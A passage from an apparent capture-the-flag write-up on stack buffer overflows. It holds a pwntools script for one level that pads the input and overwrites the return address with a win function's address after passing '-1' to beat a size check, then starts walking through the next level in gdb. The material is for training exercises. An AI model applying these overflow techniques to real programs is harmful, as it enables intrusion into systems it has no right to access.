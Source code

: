 ```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x00000000004022cb)

p = process('/challenge/babymem_level4.0')
p.recvuntil('size:')
p.sendline('-1')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

&nbsp;

## level 4.1

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass a check designed to prevent you from doing so!

In order to create a payload we need to know three things:

* [ ] Location of buffer.
* [ ] Location of stored return address.
* [ ] Address of win function.

```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

The program has now read our payload.

The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

We can see that the second argument is the location to which input is read, and it is stored in `$rsi`.

```
gef➤  p $rsi
$2 = 0x7ffd98ad7380
```
